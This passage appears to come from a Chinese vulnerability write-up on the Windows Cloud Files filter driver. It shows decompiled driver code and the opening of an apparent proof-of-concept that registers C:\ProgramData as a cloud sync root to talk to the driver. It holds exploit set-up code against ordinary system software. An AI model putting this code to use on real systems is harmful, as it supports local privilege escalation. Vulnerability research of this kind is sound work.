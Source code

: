 ```
        Status = HsmFltProcessSetPinState(
                   (__int64)&v85,
                   (__int64)v13,
                   *(struct _FILE_OBJECT **)v88,
                   a2,
                   v9,
                   v87,
                   v84,
                   CallbackData,
                   v73,
                   v100,
                   Length,
                   v101);
        HsmDbgBreakOnStatus(Status);
        goto LABEL_209;
      }
      break;



```  
  
它首先执行一个同步根目录注册。然后启动同步提供程序和同步过滤器API之间的通信：  
```
struct _OBJECT_ATTRIBUTES ObjectAttributes = { 0 };
GUID guid = { 0 };
WCHAR* dir = (WCHAR*)L"C:\\ProgramData";
HANDLE hObject = NULL;
struct _IO_STATUS_BLOCK IoStatusBlock;
struct _IO_STATUS_BLOCK IoStatusBlock_control_file = { 0 };



guid.Data1 = 0xB196E670;
guid.Data2 = 0x59C7;
guid.Data3 = 0x4D41;

CRC32TableCreate();
GetFuncAddr();

CfUnregisterSyncRoot(L"C:\\ProgramData\\");

CF_SYNC_REGISTRATION reg = { 0 };
reg.StructSize = sizeof(reg);
reg.ProviderName = L"test";
reg.ProviderVersion = L"1.0";
reg.ProviderId = guid;

CF_SYNC_POLICIES policies = { 0 };
policies.StructSize = sizeof(policies);
policies.HardLink = CF_HARDLINK_POLICY_ALLOWED;
policies.Hydration.Primary = CF_HYDRATION_POLICY_PARTIAL;
policies.InSync = CF_INSYNC_POLICY_NONE;
policies.Population.Primary = CF_POPULATION_POLICY_PARTIAL;

HRESULT hr = CfRegisterSyncRoot(dir, &reg, &policies, CF_REGISTER_FLAG_DISABLE_ON_DEMAND_POPULATION_ON_ROOT);
if (FAILED(hr)) {
 printf("[-] CfRegisterSyncRoot failed with %d", GetLastError());
 return 0;
}

printf("[*] CfRegisterSyncRoot success\n");

```